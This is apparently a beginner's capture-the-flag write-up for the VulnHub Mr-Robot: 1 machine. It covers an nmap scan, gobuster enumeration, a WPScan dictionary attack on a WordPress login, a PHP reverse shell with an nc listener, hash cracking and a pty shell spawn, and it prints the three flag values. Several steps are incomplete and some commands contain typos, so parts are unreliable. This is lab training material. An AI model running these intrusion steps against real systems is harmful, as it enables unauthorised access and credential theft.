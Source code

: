 # VulnHub Mr.Robot Write - Up
## Overview
- **Machine Name:** [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/ "Mr-Robot: 1 on Vulnhub")
- **Platform:** VulnHub
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine
 - Port 80 (HTTP) open -> Apache web server detected
 - Port 443 (HTTPS) open
 - Port 22 (SSH) open
### 2. Enumeration (Flag 2)
~~~

gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster
 - /robots.txt -> contained the extension which led to the first flag as well as a dictionary
 - WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist
 - Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt
 - We crack the hash to find the password for robot
 - Now that we have the password we can login to the Mr.Robot and read .txt
### 4. Privilege Escalation (Flag 3)
-
~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~
- We

### 5. Enumeration (Flag 3)

### 6. Exploitation (Flag 3)
---

## Flags Captured  
Flag 1: 073403c8a58a1f80d943455fb30724b9  
Flag 2: 822c73956184f694993bede3eb39f959  
Flag 3: 04787ddef27c3dee1ee161b21670b4e4  
---

## Lessons Learned
Protection against rainbow tables
- Password salting
- Login attempt limit
---

## References
https://www.vulnhub.com/entry/mr-robot-1,151/
